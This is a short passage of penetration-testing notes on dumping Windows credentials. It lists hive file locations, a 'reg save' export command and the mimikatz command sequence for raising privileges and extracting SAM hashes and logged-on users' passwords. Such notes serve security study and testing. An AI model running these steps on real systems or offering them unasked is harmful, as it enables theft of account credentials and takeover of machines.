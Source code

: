<h2>Dump Hashes</h2>

<li>Dumped hash format</li>
<ul>
    <li>Username:#:LM HASH:NTLM HASH:::</li>
</ul>

<li>SAM, SYSTEM, and SECURITY Location</li>
<ul>
    <li>C:\Windows\System32\config\</li>
    <li>Backup Locations</li>
    <ul>
        <li>C:\Windows\System32\config\RegBack</li>
        <li>C:\Windows\Repair</li>
    </ul>
    <li>reg save HKLM\&lt;file&gt; &lt;Out file&gt;</li>
</ul>

<li>mimikatz</li>
<ul>
    <li>Extracts hashes from the Local Security Authority Subsystem (LSASS)</li>
    <li>Dump creds/hashes</li>
    <ul>
        <li>Summary</li>
        <ul>
            <li>privilege::debug</li>
            <li>token::elevate</li>
            <li>lsadump::sam</li>
            <li>sekurlsa::logonpasswords</li>
        </ul>
        <li>Explained/Detailed</li>
        <ul>
            <li>Mimikatz must be launched from an administrative command prompts</li>
            <ul>
                <li>Must first execute two commands:</li>
                <ul>
                    <li>privilege::debug – enables SeDebugPrivilege</li>
                    <ul>
                        <li>If fails, mimikatz was most likely not executed with admin privileges</li>
                    </ul>
                    <li>token::elevate</li>
                    <ul>
                        <li>Elevates mimikatz security token from administrator to SYSTEM</li>
                        <li>If mimikatz is launched from a SYSTEM shell, this step can be skipped</li>
                    </ul>
                </ul>
                <li>Dump SAM contents (Security Account Manager)</li>
                <ul>
                    <li>lsadump::sam</li>
                </ul>
                <li>Dump NTLM hash</li>
                <ul>
                    <li>sekurlsa::logonpasswords</li>
                    <ul>
                        <li>This will dump the credentials of all users currently logged into the workstation or server.</li>
                        <ul>
                            <li>Includes remote logins like RDP sessions</li>
                        </ul>
                        <li>If WDigest is enabled Mimikatz will reveal cleartext passwords alongside hashes (Windows 7)</li>
                    </ul>
                </ul>
            </ul>
        </ul>